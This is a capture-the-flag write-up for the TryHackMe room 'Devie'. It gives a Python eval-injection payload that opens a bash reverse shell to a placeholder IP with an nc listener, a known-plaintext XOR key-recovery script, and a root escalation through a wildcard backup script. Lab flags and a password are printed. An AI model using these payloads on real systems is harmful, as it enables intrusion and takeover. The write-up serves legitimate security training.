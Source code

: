 # Devie

A writeup for the room [Devie](https://tryhackme.com/r/room/devie) on TryHackMe.

> A developer has asked you to do a vulnerability check on their system.

<Image src={require("./logo.webp").default} height="256" />

### Scanning

It is possible to start by scanning the machine for open ports with nmap.

There are only the 22 port for SSH and 5000.

<Image src={require("./nmap.webp").default} />

By connecting to the port 5000 with the browser we can find a web application.
The website allows to do different math calculations.

<Image src={require("./website.webp").default} />

In the footer of the page is possible to download the source code.

### First flag

By looking careful to the code we can see a vulnerability in the eval function with user input. There is no sanitation, it only checks that the values given are string.

<Image src={require("./vuln.webp").default} />

We can try to obtain a reverse shell by using a custom payload.

For example:

```py
__import__('os').system('bash -c \'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1\'')#
```

Substitute the IP and the port.
On your machine run:

```sh
nc -nvlp <PORT>
```

Once inside the machine, the first flag is in the home folder of the user: `THM{Car3ful_witH_3v@l}`.

<Image src={require("./flag1.webp").default} />

### Second flag

In the home folder of the user (Bruce) we can find a note with this content:

```
Hello Bruce,

I have encoded my password using the super secure XOR format.

I made the key quite lengthy and spiced it up with some base64 at the end to make it even more secure. I'll share the decoding script for it soon. However, you can use my script located in the /opt/ directory.

For now look at this super secure string:
NEUEDTIeN1MRDg5K

Gordon
```

The encryption process is `encode_base64(cleartext ^ key) = ciphertext`

We can encrypt a simple message like a very long list of duplicated 'a'.
In this way it is possible to calculate the key.

`decode_base64(ciphertext) = ciphertext = cleartex ^ key -> cleartex ^ key ^ cleartext = key`

<Image src={require("./key.webp").default} />

It is possible to write a simple Python script to decrypt easily the password.

```py
import base64

cleartext = "00000000000000000000000000"
ciphertext = "Q0VAVUJDVVNCVURbVUlIX0JIX0JDRUBVQkM="

decoded = base64.b64decode(ciphertext)

# Find the key value
key = ""
for i, c in enumerate(decoded):
    # Remember c ^ cleartext = cleartex ^ key ^ cleartext = key`
    key += chr(c ^ ord(cleartext[i]))

ciphertext = b"NEUEDTIeN1MRDg5K"
decoded = base64.b64decode(ciphertext)

# Find the password value
password = ""
for i, c in enumerate(decoded):
    # Remember c ^ key = cleartext
    password += chr(c ^ ord(key[i]))

print(password)
```

By executing this script we can find the password `G0th@mR0ckz!`.
The second flag is inside the home folder of the user Gordon: `THM{X0R_XoR_XOr_xOr}`.

<Image src={require("./flag2.webp").default} />

### Third flag

There is a custom script called `backup` in `/usr/bin` that we can execute.
It copies everything inside the reports folder of gordon to the backups folder.
This action is made as root, so we can add a symlink to the root folder and make it copy also that.

```sh
#!/bin/bash
cd /home/gordon/reports/
cp * /home/gordon/backups/
```

```
bash -p
```
